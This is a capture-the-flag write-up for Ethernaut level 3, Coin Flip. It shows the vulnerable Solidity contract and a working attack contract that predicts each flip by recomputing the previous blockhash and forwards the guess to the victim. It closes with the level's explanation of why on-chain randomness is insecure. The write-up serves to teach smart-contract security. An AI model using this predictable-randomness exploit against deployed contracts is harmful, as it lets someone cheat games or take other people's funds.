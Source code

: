 ## Ethernaut-solution
---

### 3.Coin Flip  
 *Filiping => used for emphasis or to express mild annoyance.
 *consective => following each other continuously.

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

  Things that might help

See the Help page above, section "Beyond the console"

```solidity
/CoinFlip.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1))); //global function and global variable 
https://docs.soliditylang.org/en/latest/units-and-global-variables.html?highlight=block#block-and-transaction-properties
    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

```solidity
/CoinFlipAttack.sol 

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./CoinFlip.sol";

contract CoinFlipAttack {

  CoinFlip public victimContract;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor(address _victimContractAddr) public {
    victimContract = CoinFlip(_victimContractAddr);
  }

  function flip() public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = uint256(blockValue/FACTOR);
    bool side = coinFlip == 1 ? true : false;
    victimContract.flip(side);
  }
}
```

---

Level completed!
Difficulty 3/10

Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use Chainlink VRF, which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through BTC Relay), RANDAO, or Oraclize).
















